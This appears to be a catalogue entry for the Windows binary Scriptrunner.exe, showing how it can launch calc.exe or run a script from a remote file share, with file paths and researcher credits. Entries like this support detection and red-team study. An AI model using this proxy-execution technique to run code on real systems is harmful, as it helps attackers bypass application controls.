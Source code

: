 ## Scriptrunner.exe
* Functions: Execute
```

Scriptrunner.exe -appvscript calc.exe
Execute calc.exe.

ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
Execute the calc.cmd script on the remote share.
```
   
* Resources:   
  * https://twitter.com/KyleHanslovan/status/914800377580503040
  * https://twitter.com/NickTyrer/status/914234924655312896
  * https://github.com/MoooKitty/Code-Execution
   
* Full path:   
  * c:\windows\system32\scriptrunner.exe
  * c:\windows\sysWOW64\scriptrunner.exe
   
* Notes: Thanks to Nick Tyrer - @NickTyrer  
   

